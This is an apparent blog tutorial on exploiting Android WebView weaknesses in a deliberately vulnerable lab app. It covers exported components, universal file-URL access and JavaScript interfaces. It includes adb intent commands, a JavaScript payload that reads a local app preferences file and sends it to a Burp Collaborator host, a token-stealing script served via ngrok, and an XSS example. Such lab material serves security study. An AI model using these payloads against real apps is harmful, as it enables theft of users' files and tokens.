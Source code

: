 ```yaml
---
title: WebViews in Mobile
author: Xmosb7
classes: wide
ribbon: MidnightBlue
header:
  teaser: /assets/images/WebViews-in-mobile/Webview.jpg
date: 2023-04-15 14:00:00 +0800
categories: Tutorials
# description: "..."
tags: [Android, Webview]
---
```



# WebViews in mobile

- we need to de-compile an apk to go through AndroidManifest.xml file

Now, we will see which are the components that are **exported.** 
we can conclude that a component is exported in 2 ways.

- If component explicitly declares the **“exported=true”** attribute
- If the component has intent filters & no **“exported=false”** attribute

![Untitled](/assets/images/WebViews-in-mobile/Untitled.png)

![Untitled](/assets/images/WebViews-in-mobile/Untitled%201.png)

We can see that the function loadWebView,it is loading the url by getting the string from intent.

![Untitled](/assets/images/WebViews-in-mobile/Untitled%202.png)

<aside>
💡 ⇒ So this behavior can be exploited by third party applications by sending an intent to this         component with a url string and the target application will accept and execute as this component has been exported , or access LFI from the app

</aside>

****Exploitation****

```bash
adb shell am start -n componentname --es string "domain.com"
```

So our adb cmd will look like as follows:

```
adb shell am start -n com.tmh.vulnwebview/.RegistrationWebView --es reg_url "https://3kal.medium.com"
```

⇒ **NOTE:** The above way works only if the component is directly exported and this doesn’t work for component exported by intent filter.

****setAllowUniversalAccessFromFileURLs enabled for WebView****

Another setting that the developer can configure is allowing JavaScript running within the context of file scheme URL to access content from any origin including other file scheme URLs.

![Untitled](/assets/images/WebViews-in-mobile/Untitled%203.png)

![Untitled](/assets/images/WebViews-in-mobile/Untitled%204.png)

```
<script>
    var url = 'file:///data/data/com.tmh.vulnwebview/shared_prefs/MainActivity.xml'; //local filefunction load(url) {
        var xhr = new XMLHttpRequest();xhr.onreadystatechange = function() {
            if (xhr.readyState === 4) {
            fetch('https://8ktm71h4wjnqo72wgqbzvnr7jypodd.burpcollaborator.net/?exfiltrated=' + btoa(xhr.responseText)); //send b64 encoded file to attacker
            }
        }xhr.open('GET', url, true);
        xhr.send('');
    }load(url)
</script>
```

Add the above code to **sauafu.html** and move the file to the sdcard using adb.

![](https://miro.medium.com/v2/resize:fit:537/1*lLm6-_JqCJvytg6SHdAFaw.png)

<aside>
💡 ⇒  Exploit loads the content of the local file and returns it to the attacker url.

</aside>

Now run the intent with exploit file.

```
adb shell am start -n com.tmh.vulnwebview/.RegistrationWebView --es reg_url "file:///sdcard/sauafu.html"
```

Now we should have received file contents encoded in base 64 in the burp collaborator or whatever you used.

****JavaScript Enabled with Interface for WebView****

Developers can enable java script in the webview by adding this configuration

```
webView.getSettings().setJavaScriptEnabled(true);
```

Adding this configuration creates an interface between the webpage’s java script and the client side java code of the application

⇒ i.e., the web page’s java script can access and inject java code into the application.

```
webView.addJavascriptInterface(new WebAppInterface(this), "Android");
```

if this activity is exported, this can be dangerous and allows an attacker to carry out many attacks including XSS and stealing tokens from the application.

## **Exploitation**

For Exploitation of this scenario, we cannot make use of the same web View as above since it doesn’t make use of interface. Hence, we will use some other webView which has used the interface.

![](https://miro.medium.com/v2/resize:fit:700/1*F_Zu34Wn0KJ299rfgQ90KA.png)

we can use support webview as you can see that java script has been enabled along with the use of the interface with the name **Android**.

![](https://miro.medium.com/v2/resize:fit:614/1*KSSFFseer-fvHFFxuZ8JJw.png)

```
<script type="text/javascript">
document.write("token: " + Android.getUserToken());
</script>
```

This script writes the token by generating from the getUserToken() Method from the **Android** object which was the name of the interface.

Host this script from the apache server and connect port 80 to ngrok to get https link (http links cannot be used).

```
sudo service apache2 start
./ngrok http 80

and use https ngrok link

adb shell am start -n com.tmh.vulnwebview/.Supportwebview --es support_url "https://8d95c0fe086f.ngrok.io/token.html"
```

![](https://miro.medium.com/v2/resize:fit:494/1*PuhX4XeOChzEQrmDuGPEwg.png)

token stealing

We can show XSS alert just by replacing the document.write line in the above javascript code with your favorite xss payload.

```
<script type="text/javascript">
alert("kal");
</script>
```

![](https://miro.medium.com/v2/resize:fit:492/1*IaFfGb9f9gmzSyr4LEJ47w.png)